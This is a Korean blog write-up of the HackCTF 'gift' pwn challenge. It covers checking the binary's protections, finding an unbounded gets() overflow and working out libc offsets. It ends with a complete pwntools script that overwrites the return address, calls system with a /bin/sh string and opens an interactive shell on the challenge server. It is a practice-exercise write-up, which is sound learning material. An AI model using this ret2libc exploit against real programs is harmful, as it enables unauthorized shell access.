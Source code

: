```yaml
---
layout: post
title:  "HackCTF gift write-up"
date:   2020-02-03 19:45:55
image:  hackctf_gift.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled.png)

NX비트 말곤 다 안걸려있다.
<br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%201.png)

바이너리를 실행시켜보면 두개의 주소를 알려주고 두개의 입력을 받고 종료가 된다. 해당 주소를 이용하여 진행을 하는것으로 보인다
<br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%202.png)

출력되는 주소가 binsh의 주소와 system함수의 주소이다. 그리고 fgets로 128바이트 만큼 입력을 받고, 입력한 문자열을 출력해준 뒤, gets로 한번더 입력을 받게 된다. 여기서는 크기 제한이 없으므로 bof를 일으켜 ret를 변경하여 system함수를 실행시키면 될 것이다
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%203.png)

하지만 자세히 보면 system 함수는 실제 함수의 주소이지만, binsh는 .bss 영역에 저장된 전역변수의 이름이 binsh이다. 해당 주소를 rop의 인자로 넣으면 아무 소용이 없다. 이를 염두해야한다
<br><br><br><br>
### 2. 접근방법

---

system함수를 주기 때문에 libc_base를 구하여 오프셋을 이용해 "/bin/sh" 의 주소를 찾고 ROP를 진행하면 될 것이다. 매우 간단한 문제이다. libc_database를 이용하여 libc의 버전을 확인해보자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%204.png)

ubuntu10의 2.23 버전이다. 현재 내 환경은 ubuntu16이기 때문에 로컬에서는 될지 몰라도 원격에서는 오프셋이 다르기 때문에 ubuntu10에서의 오프셋을 구해야한다. dump 프로그램을 이용하자
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%205.png)

system함수와 bin_sh의 오프셋을 확인가능하다. 이를 이용하여 ROP를 진행하자
<br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3018)
#p=process("./gift")
#gdb.attach(p)

tmp=p.recvline()
bin_bash=int(tmp[32:41],16)
system_addr=int(tmp[42:],16)

log.info("bin::"+hex(bin_bash))
log.info("system::"+hex(system_addr))

libc_base=system_addr-0x0003a940
gets_adr=libc_base+0x5f3e0

p.sendline("A")
#p.recvline()

payload="A"*0x88+p32(system_addr)
payload+=p32(0x080483ad)
payload+=p32(libc_base+0x15902b)
#payload+=p32(system_addr)
#payload+="AAAA"
#payload+=p32(bin_bash)


p.sendline(payload)
#p.sendline("/bin/sh\00")

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

---

처음에 libc_databe의 우분투 버전을 제대로 확인하지 않아서 계속 시간낭비를 했다. 주어진 문제의 조건들을 잘 확인하자..